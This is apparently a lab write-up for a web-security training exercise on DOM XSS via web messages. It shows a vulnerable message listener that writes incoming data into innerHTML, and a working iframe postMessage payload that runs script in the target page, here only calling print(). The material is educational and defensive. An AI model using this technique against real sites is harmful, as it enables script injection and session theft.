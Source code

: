 # DOM XSS using web messages
# Objective
This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

# Solution
## Analysis
Website has `script` that creates `eventListener`  prepared for `ads`.

|![](Images/image.png)|
|:--:| 
| *Added event listener - Web messages* |

Vulnerable code:
```js
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

## Exploitation

|![](Images/image-1.png)|
|:--:| 
| *Testing* |
|![](Images/image-2.png)|
| *Testing basic XSS - provided payload was executed* |
|![](Images/image-3.png)|
| *Final payload* |

Final payload:
```js
<iframe src="https://0ae50024031834288497091600d10075.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=0 onerror=print()>','*')">
```


Explaination:
- `this` - refers to `iframe`.
- `contentWindow` - refers to window object of the `iframe`.
- `postMessage()` - calls web message method.
- `'*'` - specifies the `targetOrigin` - the origin the recipient window must have in order to receive the event. In order for the event to be dispatched, the origin must match exactly. `*` is a wildcard.
















